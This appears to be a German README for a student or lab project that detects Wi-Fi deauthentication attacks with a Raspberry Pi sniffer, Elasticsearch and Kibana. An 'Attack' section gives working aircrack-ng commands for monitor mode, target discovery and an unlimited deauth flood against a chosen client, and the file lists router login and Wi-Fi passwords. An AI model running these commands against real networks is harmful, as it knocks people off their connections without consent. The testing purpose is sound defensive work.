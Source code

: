 # Eingesetzte Technologien
- Pi-Sniff > Python-Skript (Scapy)
    - Schranke mit aircrack-ng ausloten
- Server-DB > Elasticsearch
- Server-GUI > Kibana

# Dashboard
- Pie-Chart
- Heat-Map (MAC-Adresse Angreifer nach Zeit in bestimmter Granularität)
- Bar-Chart (MAC-Adresse x # Packete absolut)
- Bar-Chart (MAC-Adresse x # Packete normalisiert)

# Zugangsdaten
## Router
- Web-UI: root:supersecurepassword
- WLAN: DancingRainbows:supersecurepassword

# Attack
## Monitor Mode starten
`airmon-ng start wlan0`

## MAC-Adressen von AP und Target herausfinden
`airodump-ng wlan0`

## Senden von Deauth-Packets
`aireplay-ng -0 0 -a <AP-MAC> -c <Target(Client)-MAC> wlan0`

# Log-File
New-line getrennte JSON-Objekte mit der Form:
`{'timestamp': 1682011162.6059976, 'reciever': 'aa:bb:cc:11:22:33', 'source': 'aa:bb:cc:11:22:34', 'bssid': 'aa:bb:cc:11:22:35', 'attack_uuid': UUID('75d183a8-7861-4c6e-9e03-37ddbb3156ca')}`

# Python
## Install requirements
`pip install -r requirements.txt`

## Run
Skript muss mit `sudo` ausgeführt werden, um auf NIC zugreifen zu können.

# Docker
## Build image
`docker build -t pinkfluffyunicorn:dev -f "$(pwd)/Kali.Dockerfile" .`

## Start image
Interface als Environment übergeben.

`docker run --privileged -it --network host --env IFACE=wlan0 pinkfluffyunicorn:dev /bin/bash`

## Aufräumen
Alle container zeigen

`docker ps`

Alle images zeigen

`docker images`

Bestimmte images löschen
(hashes durch `docker images` suchen)

`docker rmi imagehash1 imagehash2 imagehash3 ...`

oder mit Namen
`docker rmi pinkfluffyunicorn:dev`

# Docker Compose (wenn Image gebuildet wurde)

## .env

Beinhaltet Environment-Daten für das Docker-Compose-Skript.

## Run

`docker compose up`

## Open shell

`docker exec -it pinkfluff /bin/bash`

